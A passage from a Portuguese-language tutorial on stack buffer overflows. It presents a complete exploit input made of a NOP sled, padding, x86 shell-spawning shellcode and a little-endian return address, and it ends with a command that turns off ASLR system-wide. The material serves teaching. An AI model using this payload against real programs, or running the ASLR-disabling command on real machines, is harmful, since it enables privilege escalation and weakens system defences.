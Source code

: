 Se pegarmos por exemplo o endereço `0xbffff360`, para o incluirmos no fim do stack afim de executar o NOP sled que nos levará ao bash, vamos incluir este endereço no nosso input, que ficará assim:

```
\x90\x90\x90\x90\x90\x90\x90\x90 -- NOP sleds
\x41\x41\x41\x41\x41\x41\x41 -- AAAAAAA
\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89
\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80 -- /bin/bash
\x01\x02\x03\x04 -- 1234
\x60\xf3\xff\xbf -- 0xbffff360
```

Perceba que o endereço foi descrito do bit menos significativo para o mais significativo. Isto porque arquiteturas x86 (32 bits) armazenam instruções no [formato Little Endian](https://web.archive.org/web/20180107141940/http://www.cs.umd.edu/class/sum2003/cmsc311/Notes/Data/endian.html).

Agora sim podemos executar o programa e ver que ao fim um bash será aberto.

![Execução com bash](https://raw.githubusercontent.com/andreybleme/andreybleme.github.io/master/assets/img/buffer-overflow-bash.png "Execução com bash")


Buffer overflow no mundo real
---

### Desabilitando ASLR

Sistemas operacionais modernos possuem um mecanismo de randomização de endereços de memória (Address space layout randomization - ASLR), que dificulta bastante a exploração de ataques de baixo nível em memória. Veja este script que retorna o endereço do início do stack, `$esp` (extended stack pointer):

<script src="https://gist.github.com/andreybleme/25d554864e8d7d180172fb7d56522220.js"></script>

Se seu sistema operacional possui ASLR ativado, a cada execução deste programa você terá como output um endereço de memória difrente. Para desativar este recurso em distribuições Linux baseadas em Ubuntu, basta executar o comando: 

`echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`
